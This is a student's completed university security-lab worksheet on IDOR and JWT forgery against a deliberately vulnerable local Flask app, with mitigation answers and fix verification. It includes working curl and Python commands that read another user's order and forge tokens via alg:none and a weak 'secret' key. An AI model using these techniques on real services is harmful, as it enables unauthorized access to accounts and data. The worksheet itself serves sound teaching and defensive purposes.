








# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Thiwakorn Boayairuksa | 6631503019 | 11/9/2569 |       |


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Authentication verifies who the user is, while authorization determines what that authenticated user is allowed to access. In get_order, current_user() performs authentication, but its result is ignored, so the missing control is authorization.
2. IDOR occurs when an application uses a user-controlled object ID without checking whether the current user owns that object. /api/orders/<oid> is exploitable because Alice's token can request Bob's order by changing oid to 2. The ownership check in solution_app.py at L64 closes the vulnerability by verifying that order["user"] == user["sub"] before returning the order.
3. The alg:none attack creates a JWT with no cryptographic signature, so an attacker can modify the token's claims without knowing the server's secret. Because the vulnerable application includes "none" in algorithms=[...], the server accepts an unsigned token instead of requiring a valid HS256 signature.
4. The hardcoded secret "secret" is dangerous because an attacker can guess it and generate a valid HS256 token with any user identity, such as {"sub":"bob"}. A strong random secret makes guessing the signing key impractical, while pinning the algorithm to HS256 prevents attackers from switching to an unsigned none token.
5. The exp claim limits how long a token is valid, while aud identifies the intended audience of the token. The secure version requires both claims so that expired tokens and tokens not intended for this application are rejected instead of being accepted indefinitely.

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*

**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.
//The server should check that the requested order belongs to the authenticated user before returning the data. If the order owner does not match the user's identity, the server should return HTTP 403 Forbidden.
```sim
jwt-forge
```

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).
//The server should only accept the expected signing algorithm, such as HS256, and reject unsigned tokens using alg:none. The JWT library should explicitly pin the allowed algorithm instead of trusting the algorithm specified by the token.
**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.
//The JWT signing key should be a long, randomly generated secret stored securely instead of a hardcoded value such as "secret". The server should also pin the expected algorithm and validate important claims such as exp and aud.
**Task 4 — Privilege/identity escalation reasoning (25 min).**
- *Goal:* combine the flaws. Using Task 2/3 you became `bob` *without his password*; using Task 1 you read objects you don't own.
- *Steps:* document the full attack chain (forge token → access any `oid`). Optionally replay the requests through **Burp Suite Repeater** and screenshot the intercepted request/response.
- *Deliverable:* a short chain diagram/paragraph + Burp (or curl) evidence.
//The attack chain starts by forging a JWT that identifies the attacker as Bob using either the alg:none flaw or the weak HMAC secret. Because the order endpoint also lacks an ownership check, the forged identity can then be combined with a different oid to access orders that should belong to other users.
**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–3.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40).
- *Deliverable:* screenshots of the 403 and both 401s + name the fix line for each.


//The secure version enforces authorization by checking order ownership and rejects forged JWTs by pinning the algorithm and using a strong secret with required claims. These controls prevent both unauthorized object access and token forgery, but all protected endpoints must consistently apply the same authorization checks.
## Part 4 — Reflection

1. | Vulnerability             | CWE     | OWASP                       |
| ------------------------- | ------- | --------------------------- |
| IDOR                      | CWE-639 | A01 Broken Access Control   |
| `alg:none` JWT forgery    | CWE-347 | A07 Authentication Failures |
| Weak hardcoded JWT secret | CWE-321 | A07 Authentication Failures |

2. The 2022 Optus breach exposed customer information through an API that could be accessed without sufficient authorization controls. Attackers were able to access information associated with different customer records by manipulating identifiers. This is similar to Task 1, where Alice's valid token can access Bob's order simply by changing the oid. Task 4 demonstrates how weak authentication and missing authorization can combine to make the impact much greater.
3. Deny-by-default server-side ownership checks protect the largest attack surface because they prevent users from accessing objects they do not own, even if authentication or token validation is bypassed. Pinning the JWT algorithm and using a strong managed secret are also important, but authentication alone cannot replace authorization. Every sensitive resource must independently verify that the authenticated user is permitted to access it.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. I used Alice's valid token to request different order IDs and found that I could access Bob's order by changing the oid. The vulnerability worked because the application authenticated the user but did not check whether the requested order belonged to that user.
  2. The fix checks the order's owner against the authenticated user's identity before returning the data, so Alice receives 403 forbidden when requesting Bob's order. However, authorization must be applied consistently to every protected endpoint, because a new endpoint that forgets the ownership check could introduce another IDOR vulnerability.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Add an ownership check before returning the order. After getting the current user, compare the order's user ID with the authenticated user's ID. If they do not match, return HTTP 403 Forbidden.
2. “compare the order's user ID with the authenticated user's ID” The concept behind this statement is correct but insufficient, as it fails to specify the actual field used by the application or indicate the location or logic requiring modification; therefore, it cannot be confirmed that the fix will actually work with `solution_app.py`.
3. The worksheet indicates that the fix is ​​located at `solution_app.py` (line 64) and requires an ownership check before returning the order:

if order["user"] != user["sub"]:
return jsonify({"error": "forbidden"}), 403

Therefore, when making a request using Alice's token:

curl -s http://localhost:8080/api/orders/2 \
-H "Authorization: Bearer $TOKEN"

The expected result to verify is:

{"error":"forbidden"}

And the HTTP status:

403

The AI correctly identified that an ownership check is required, but its answer was incomplete because it did not specify the actual fields or return status used by this application. The verified fix compares order["user"] with the authenticated user's sub claim and returns HTTP 403 when they do not match.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. The order endpoint trusts the order ID supplied by the user and returns the order without checking whether the authenticated user owns it. Therefore, Alice can change the ID from 1 to 2 and receive Bob's order even though she is logged in as Alice.

**B. Review the /api/orders/<oid> endpoint in vulnerable_app.py for an IDOR vulnerability (CWE-639). Modify the code so that after authenticating the user, the server checks whether the requested order belongs to that authenticated user before returning it. Use the application's existing user identity field and order owner field, return HTTP 403 with {"error":"forbidden"} when ownership does not match, and preserve normal access to the user's own orders. Then explain the exact code change and provide curl commands to verify that Alice can still access order 1 but receives 403 when requesting Bob's order 2.
